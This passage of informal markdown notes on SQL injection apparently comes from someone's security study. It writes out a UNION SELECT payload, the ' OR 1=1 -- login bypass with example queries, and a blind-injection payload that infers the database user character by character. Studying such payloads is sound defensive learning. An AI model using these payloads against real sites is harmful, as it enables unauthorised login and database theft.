             # now pull info out through the union
            http://example.com/page.asp?id=1 UNION SELECT ALL USER,2,3--
            ```
        * blind: worst case, last resort



if foo.asp?id="4+1" works then you know you the DB is running query for you




some examples use --+ to do the same thing as --<WHITESPACE> when sending the sql injeciton in the URL - why does this work?
    example used %20 initially but that was stripped by browser

attacks

```
' OR 1=1 --
# this nullifies the WHERE clause in the query
# this can be used if the query is
"SELECT * from users WHERE username='#{username}' AND password='#{password}'"
"SELECT * from users WHERE username='joe' AND password='bloggs'" # legit usage
"SELECT * from users WHERE username='joe' AND password='' OR 1=1 --'" # any password works


# ###############################
# in this attach we are going to use a blind sqli to get the username of the current user in the DB
# it is blind sqli so we will never actually get the username back as a result
# we first have to determine that
# 1. this point is vulnerable to sqli
# 2. some way of figuring out whether the query we sent worked or not (i.e. a true/false test). We will use this true/false test to ask the DB questions and infer the answers

' OR ascii(substr(SELECT user(), 1, 1)) > 0 #
# 1. select the username
# 2. get the first char from it
# 3. convert that char to an int
# 4. comment out the rest of the query after that
# 5. compare the it with a chosen number - this step is repeated many times with differnt numbers an operators and the true/false results from the DB are noted. This takes ages so is often automated in a tool
```

## Understanding
Looking at the form input on the page, try to guess the shape of the SQL statement it might generate .e.g if it is a search box then

```sql
SELECT ? FROM ? WHERE ? LIKE '%yourquery%';
```

seems reasonable. Now try things in `yourquery` which will give you info you should not have e.g.
